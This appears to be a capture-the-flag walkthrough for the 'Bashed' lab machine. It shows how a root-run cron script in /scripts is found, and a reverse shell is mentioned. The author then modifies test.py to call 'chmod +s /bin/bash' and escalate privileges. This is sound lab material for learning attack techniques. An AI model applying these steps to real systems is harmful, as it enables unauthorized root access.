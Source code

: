 ## Scripts Folder
Started by checking out the file structure and found the 'scripts' folder almost immediately. Looks like a file within can be manipulated by this 'scriptmanager' user:
```bash
scriptmanager@bashed:/$ ls
ls
bin   etc         lib         media  proc  sbin     sys  var
boot  home        lib64       mnt    root  scripts  tmp  vmlinuz
dev   initrd.img  lost+found  opt    run   srv      usr
scriptmanager@bashed:/$ ls -al /scripts
ls -al /scripts
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Jun  2 07:19 .
drwxr-xr-x 23 root          root          4096 Jun  2 07:25 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Jun 27 10:04 test.txt
scriptmanager@bashed:/$
```

Cat'd out the contents of these two files. Noted that the last modified date was changing every minute, indicating this .py gets run on a schedule (Every minute)
```bash
testing 123!scriptmanager@bashed:/scripts$ ls -al
ls -al
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Jun  2 07:19 .
drwxr-xr-x 23 root          root          4096 Jun  2 07:25 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Jun 27 10:08 test.txt
scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ ls -al  
ls -al
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Jun  2 07:19 .
drwxr-xr-x 23 root          root          4096 Jun  2 07:25 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Jun 27 10:09 test.txt
```

I was pulling my hair out because nano was typing out gibberish as I was trying to edit the .py file. After some research I tried to turn off the stty 'echo' via the guidance in this [Link](https://stackoverflow.com/questions/22832933/what-does-stty-raw-echo-do-on-os-x).
Hit CTRL+Z to suspend the reverse shell, input the following, then fg'd the reverse shell back into the foreground. Did some testing in Nano and it seemed to be behaving much better.
```
stty raw -echo
```

We know that the test.py script is run on a routine. We can use this to our advantage and have it run code for us. Nano'd test.py and added in the following script:
```bash
import os;
os.system("chmod +s /bin/bash")
```
